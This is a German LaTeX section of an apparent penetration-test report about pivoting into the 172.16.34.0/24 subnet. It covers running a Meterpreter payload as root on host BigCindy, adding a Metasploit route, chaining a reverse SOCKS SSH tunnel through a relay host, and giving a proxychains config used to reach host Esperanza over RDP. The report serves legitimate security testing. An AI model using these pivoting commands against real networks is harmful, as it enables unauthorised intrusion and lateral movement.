\section{Session-Handling zum Netzwerk 172.16.34.0/24}
Um das Session-Handling zu erleichtern, wurde die Meterpreter-Payload zum Host \texttt{BigCindy} hochgeladen und mit Root-Berechtigungen ausgeführt (s. Abbildung \ref{fig:bigcindy_meterpreter}).



\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln8_bigcindy/bigcindy_meterpreter}
    \caption{Start der Meterpreter-Payload auf \texttt{BigCindy}}
    \label{fig:bigcindy_meterpreter}
\end{figure}



Um sowohl weitere Metasploit-Module auf das \texttt{172.16.34.0/24}-Subnetz anwenden zu können, wurde auf die Meterpreter-Session 10 (root-Berechtigung auf BigCindy) eine Route hinzugefügt. Abbildung \ref{fig:msf_route_43} zeigt die Konfiguration der neuen Route in Metasploit (s. Befehl \texttt{route add 172.16.34.0/24 10}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln8_bigcindy/msf_route_43}
    \caption{Konfiguration einer Metasploit-Route zum Subnetz \texttt{172.16.34.0/24}}
    \label{fig:msf_route_43}
\end{figure}

Darüber hinaus wurde ausgehend von \texttt{BigCindy} ein Reverse-SOCKS-Proxy-SSH-Tunnel mit dem Befehl \texttt{ssh -R 1077 myron@172.16.33.10} aufgebaut, welcher auf dem \texttt{myron}-Host den lokalen Port 1077 öffnet und über diesen einen Dynamischen-SOCKS-Proxy zu \texttt{BigCindy} bereitstellt. Anschließend wurde auf der Kali-VM des Angreifers mit dem Befehl \texttt{ssh -L 6666:localhost:1077 myron@172.16.30.222} eine weitere SSH-Verbindung - ebenfalls zum \texttt{myron}-Host - aufgebaut, die alle eingehenden Verbindungen auf Port 6666 der Kali-VM an den Port 1077 des \texttt{myron}-Hosts weiterleitet und somit aufgrund des ersten SSH-Befehls an den Reverse-SOCKS-Proxy an \texttt{BigCindy} weiterleitet.

Textauszug \ref{lst:proxychains_config_34} zeigt passend dazu eine neue Proxychains-Konfigurationsdatei, welcher bei der Kali-VM unter \texttt{~/Documents/pentest\_MB-Reps/proxychains\_bigcindy.conf} abgespeichert wurde und bei Verwendung jeglichen Netzwerkverkehr lokal an den Port 6666 sendet.

\lstset{language=bash,caption={Proxychains-Konfigurationsdatei zur Weiterleitung der Verbindungen an \texttt{localhost} Port \texttt{6666}}, label=lst:proxychains_config_34}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps]
|-$ cat proxychains_bigcindy.conf                                                                       
strict_chain


# Proxy DNS requests - no leak for DNS data
proxy_dns 

[ProxyList]
socks5 127.0.0.1 6666
\end{lstlisting} 

Anschließend kann zum Beispiel mit dem Befehl \texttt{proxychains -f proxychains\_bigcindy.conf rdesktop 172.16.34.242} eine grafische Remote-Desktop-Verbindung zum Host \texttt{Esperanza} aufgebaut werden. Abbildung \ref{fig:rdp_esperanza} zeigt exemplarisch den Aufbau einer RDP-Sitzung, welche durch die zwei soeben erstellten SSH-Tunnel aufgebaut wurde.

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln8_bigcindy/rdp_esperanza}
    \caption{Grafische RDP-Sitzung zum Host \texttt{Esperanza} durch zwei verkettet SSH-Tunnel.}
    \label{fig:rdp_esperanza}
\end{figure}


In den nachfolgenden Kapiteln wird davon ausgegangen, dass eine Metasploit-Route zum Subnetz \texttt{172.16.34.0/24} besteht und dass die oben gezeigten SSH-Tunnel aufgebaut und die Proxychains-Konfigurationsdatei angelegt wurde.